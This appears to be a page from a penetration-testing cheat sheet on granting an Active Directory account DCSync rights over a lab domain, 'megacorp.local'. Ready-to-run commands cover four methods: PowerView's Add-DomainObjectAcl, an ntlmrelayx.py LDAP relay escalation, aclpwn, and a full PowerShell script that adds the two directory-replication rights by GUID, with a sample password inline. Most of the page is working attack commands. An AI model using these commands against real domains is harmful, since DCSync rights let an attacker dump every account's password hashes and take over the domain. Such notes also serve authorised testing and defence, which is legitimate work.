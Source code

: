 Add DCSync rights with PowerView3:

```
PS > $cred = New-Object System.Management.Automation.PSCredential("snovvcrash", $(ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force))
PowerView3 > Add-DomainObjectAcl -TargetIdentity "DC=megacorp,DC=local" -PrincipalIdentity snovvcrash -Credential $cred -Rights DCSync -Verbose
```

Add DCSync rights with ntlmrelayx.py:

```
$ sudo ntlmrelayx.py -t ldap://DC01.megacorp.local --escalate-user snovvcrash
```

Add DCSync rights with aclpwn.py:

* [https://github.com/fox-it/aclpwn.py](https://github.com/fox-it/aclpwn.py)
* [https://www.slideshare.net/DirkjanMollema/aclpwn-active-directory-acl-exploitation-with-bloodhound](https://www.slideshare.net/DirkjanMollema/aclpwn-active-directory-acl-exploitation-with-bloodhound)
* [https://www.puckiestyle.nl/aclpwn-py/](https://www.puckiestyle.nl/aclpwn-py/)

```
$ aclpwn -f snovvcrash -ft user -t megacorp.local -tt domain -d megacorp.local -du neo4j -dp neo4j --server 127.0.0.1 -u snovvcrash -p 'Passw0rd!' -sp 'Passw0rd!'
```

Add DCSync rights with ActiveDirectory module:

* [https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md)

1. Get ACL for the root domain object.
2. Get SID for the account to be given DCSync rights.
3. Create a new ACL and within it set "Replicating Directory Changes" (GUID `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`) and "Replicating Directory Changes All" (GUID `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`) rights for the SID from (2).
4. Apply changes.

```
PS > Import-Module ActiveDirectory
PS > $acl = Get-Acl "AD:DC=megacorp,DC=local"
PS > $user = Get-ADUser snovvcrash
PS > $sid = New-Object System.Security.Principal.SecurityIdentifier $user.SID
PS > $objectGuid = New-Object guid 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
PS > $identity = [System.Security.Principal.IdentityReference] $sid
PS > $adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
PS > $type = [System.Security.AccessControl.AccessControlType] "Allow"
PS > $inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
PS > $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
PS > $acl.AddAccessRule($ace)
PS > $objectGuid = New-Object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
PS > $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
PS > $acl.AddAccessRule($ace)
PS > Set-Acl -AclObject $acl "AD:DC=megacorp,DC=local"
```
